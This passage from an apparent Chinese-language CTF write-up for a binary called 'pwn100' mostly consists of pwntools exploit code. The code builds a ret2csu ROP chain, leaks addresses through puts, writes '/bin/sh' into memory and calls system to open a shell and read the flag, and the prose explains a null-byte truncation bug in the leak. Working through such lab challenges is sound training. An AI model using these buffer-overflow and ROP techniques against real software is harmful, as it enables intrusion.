 ```python
ret2__libc_csu_init=0x40075A
read_got=elf.got['read']
read_bin_sh_to_memory=0x60107c  #0x601050
mov_call_addr=0x400740
payload2=72*'c'+p64(ret2__libc_csu_init)+p64(0)+p64(1)+p64(read_got)+p64(8)
payload2+=p64(read_bin_sh_to_memory)+p64(0)+p64(mov_call_addr)+'A'*56+p64(start_addr)
payload2=payload2.ljust(200,'e')
p.send(payload2)
p.send('/bin/sh\x00')
p.recvuntil('bye~')
#gdb.attach(p)
payload3=72*'a'+p64(pop_rdi_ret)+p64(read_bin_sh_to_memory)+p64(system_addr)+p64(0xdeadbeef)
payload3=payload3.ljust(200,'f')
p.sendline(payload3)

sleep(0.2)
p.sendline('ls')
sleep(0.2)
p.sendline('cat flag')
p.interactive()
```

执行一下试试：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610509501679-8afb9742-fcdc-4273-a185-63d400824757.png)

诶？怎么报错了？按理说脚本应该没有问题才对？

通过查看输出的leak结果可以发现：

有大量的地址输出处理之后都是0x0a，即一个回车符。从Traceback上看，最根本原因是读取数据错误。这是因为puts()的输出是不受控的，作为一个字符串输出函数，它默认把字符’\x00’作为字符串结尾，从而截断了输出。因此根据这个原因，我们修改一下脚本：

```python
#coding=utf-8
from pwn import *
context.log_level='debug'

p=process('./pwn100')
elf=ELF('./pwn100')
#libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')

puts_plt = elf.plt['puts']
# puts_got=elf.got['puts']
pop_rdi_ret = 0x400763
main_addr = 0x4006B8
start_addr = 0x400550
def leak(addr):
    #payload=72*'a'+p64(pop_rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
    payload=72*'a'+p64(pop_rdi_ret)+p64(addr)+p64(puts_plt)+p64(start_addr)
    payload=payload.ljust(200,'b')
    p.send(payload)
    p.recvuntil("bye~\n")
    count=0
    up=''
    leak_content=''
    while True:
        c=p.recv(numb=1,timeout=0.1)
        count+=1
        if up=='\n' and c=="":
            leak_content=leak_content[:-1]+'\x00'
            break
        else:
            leak_content+=c
            up=c
```